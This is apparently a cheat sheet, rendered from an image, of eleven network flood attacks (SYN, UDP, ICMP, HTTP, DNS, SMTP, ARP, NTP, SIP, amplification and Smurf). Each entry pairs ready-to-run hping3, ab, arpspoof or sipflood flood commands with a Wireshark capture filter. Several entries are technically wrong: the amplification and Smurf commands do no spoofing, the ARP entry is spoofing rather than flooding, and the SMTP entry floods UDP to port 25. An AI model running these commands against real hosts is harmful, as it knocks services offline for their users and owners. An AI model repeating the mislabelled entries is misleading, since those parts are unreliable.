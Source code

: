 ### 1. SYN Flood
**Description:**
A SYN flood attack exploits the TCP handshake process. The attacker sends a succession of SYN requests to a target's system, but never completes the handshake by sending the final ACK. This consumes server resources, making it unresponsive to legitimate traffic.

**Command:**
```bash
hping3 -S -p 80 --flood -V <target_ip>
```
- `hping3`: A command-line tool for network testing.
- `-S`: Send a SYN packet.
- `-p 80`: Specify the target port (HTTP in this case).
- `--flood`: Send packets as fast as possible.
- `-V`: Verbose mode.

**Wireshark Filter:**
```plaintext
tcp.flags.syn == 1
```
This filter captures only the SYN packets, which are the initial packets in the TCP handshake.

### 2. UDP Flood
**Description:**
A UDP flood attack sends a large number of UDP packets to random ports on a remote host. Since UDP is connectionless, the target system will try to process each packet, consuming resources.

**Command:**
```bash
hping3 -2 -p 53 --flood -V <target_ip>
```
- `-2`: Use UDP mode.
- `-p 53`: Specify the target port (DNS in this case).

**Wireshark Filter:**
```plaintext
udp
```
This filter captures all UDP packets.

### 3. ICMP Flood (Ping Flood)
**Description:**
An ICMP flood attack sends a large number of ICMP Echo Request (ping) packets to the target. The target system will respond with ICMP Echo Reply packets, consuming resources.

**Command:**
```bash
hping3 -C 8 --flood -V <target_ip>
```
- `-C 8`: Send an ICMP Echo Request packet.

**Wireshark Filter:**
```plaintext
icmp
```
This filter captures all ICMP packets.

### 4. HTTP Flood
**Description:**
An HTTP flood attack sends a large number of HTTP requests to a web server. This can overwhelm the server, making it unresponsive to legitimate requests.

**Command:**
```bash
ab -n 10000 -c 100 <target_url>
```
- `ab`: ApacheBench, a tool for benchmarking web servers.
- `-n 10000`: Number of requests to perform.
- `-c 100`: Number of multiple requests to make at a time.

**Wireshark Filter:**
```plaintext
http
```
This filter captures all HTTP packets.

### 5. DNS Flood
**Description:**
A DNS flood attack sends a large number of DNS requests to a DNS server. This can overwhelm the server, making it unresponsive to legitimate DNS queries.

**Command:**
```bash
hping3 -2 -p 53 --flood -V <target_ip>
```
- `-p 53`: Specify the target port (DNS).

**Wireshark Filter:**
```plaintext
dns
```
This filter captures all DNS packets.

### 6. SMTP Flood
**Description:**
An SMTP flood attack sends a large number of SMTP requests to an SMTP server. This can overwhelm the server, making it unresponsive to legitimate email traffic.

**Command:**
```bash
hping3 -2 -p 25 --flood -V <target_ip>
```
- `-p 25`: Specify the target port (SMTP).

**Wireshark Filter:**
```plaintext
smtp
```
This filter captures all SMTP packets.

### 7. ARP Flood
**Description:**
An ARP flood attack sends a large number of ARP requests to a network. This can overwhelm the network, making it unresponsive to legitimate ARP requests.

**Command:**
```bash
arpspoof -i <interface> -t <target_ip> <gateway_ip>
```
- `arpspoof`: A tool for ARP spoofing.
- `-i <interface>`: Specify the network interface.
- `-t <target_ip>`: Specify the target IP.
- `<gateway_ip>`: Specify the gateway IP.

**Wireshark Filter:**
```plaintext
arp
```
This filter captures all ARP packets.

### 8. DNS Amplification Attack
**Description:**
A DNS amplification attack sends a large number of DNS requests to a DNS server with a spoofed source IP address. The responses are sent to the spoofed IP, overwhelming the target.

**Command:**
```bash
hping3 -2 -p 53 --flood -V <target_ip>
```
- `-p 53`: Specify the target port (DNS).

**Wireshark Filter:**
```plaintext
dns
```
This filter captures all DNS packets.

### 9. NTP Flood
**Description:**
An NTP flood attack sends a large number of NTP requests to an NTP server. This can overwhelm the server, making it unresponsive to legitimate NTP queries.

**Command:**
```bash
hping3 -2 -p 123 --flood -V <target_ip>
```
- `-p 123`: Specify the target port (NTP).

**Wireshark Filter:**
```plaintext
ntp
```
This filter captures all NTP packets.

### 10. SIP Flood
**Description:**
A SIP flood attack sends a large number of SIP requests to a SIP server. This can overwhelm the server, making it unresponsive to legitimate SIP traffic.

**Command:**
```bash
sipflood -t <target_ip> -p 5060 -c 1000
```
- `sipflood`: A tool for SIP flooding.
- `-t <target_ip>`: Specify the target IP.
- `-p 5060`: Specify the target port (SIP).
- `-c 1000`: Number of concurrent connections.

**Wireshark Filter:**
```plaintext
sip
```
This filter captures all SIP packets.

### 11. Smurf Attack
**Description:**
A Smurf attack sends a large number of ICMP Echo Request packets with a spoofed source IP address to a network. The responses are sent to the spoofed IP, overwhelming the target.

**Command:**
```bash
hping3 -C 8 --flood -V <target_ip>
```
- `-C 8`: Send an ICMP Echo Request packet.

**Wireshark Filter:**
```plaintext
icmp
```
This filter captures all ICMP packets.


